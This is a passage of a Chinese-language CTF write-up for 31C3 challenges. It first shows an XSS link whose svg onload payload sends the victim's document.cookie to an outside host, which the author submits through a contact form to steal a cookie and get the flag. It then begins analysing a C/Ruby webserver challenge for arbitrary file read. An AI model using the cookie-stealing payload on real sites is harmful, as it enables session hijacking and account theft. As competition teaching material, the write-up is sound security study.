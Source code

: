 我们可以构造一个偷cookie的连接

```
http://188.40.18.76/output/e53a4123da9c71138c0daa360b0d89ab05ced8b8/<svg onload=eval(document.location.hash.slice(1))>.php#document.location='http://lanantest.sinaapp.com/?'+document.cookie
复制代码
```

第二步把这个XSS提交到，Contact Us，就可以偷到cookie了，可以看到Flag

# 0x03 HTTP

* * *

> Check out our cool webserver. It is really fast because it is implemented in C. For security we use the versatility of Ruby.
> 
> Get the source at:
> 
> http.tar.bz2 Some example sites hosted with our webserver:
> 
> http://works.90.31c3ctf.aachen.ccc.de/works.html
> 
> http://31c3ctf.90.31c3ctf.aachen.ccc.de/announcements.html

给出了一个简单的webserver，首先看一下源代码。

run.sh 中可以看到数据包先经过，fw.rb 再进入server_file.c 进行处理。

```
#!bash
exec socat "TCP-LISTEN:80,reuseaddr=1,fork" "EXEC:./fw.rb simple ./serve_file,su=nobody,nofork" 2> >(tee -a ../www.log)
复制代码
```

看到 server_file.c 中，会读取 host目录下的path文件，并返回，首先想到任意文件读取。

```
#!c
if (chdir(host) == -1) {
        goto _404;
}
int fd= open(path, O_RDONLY);
if (fd == -1) {
    goto _404;
}
struct stat stat;
if (fstat(fd, &stat) == -1) {
    goto _404;
}
const char *file= mmap(NULL, stat.st_size, PROT_READ, MAP_SHARED, fd, 0);
if (file == NULL) {
    goto _404;
}
close(fd); 
复制代码
```
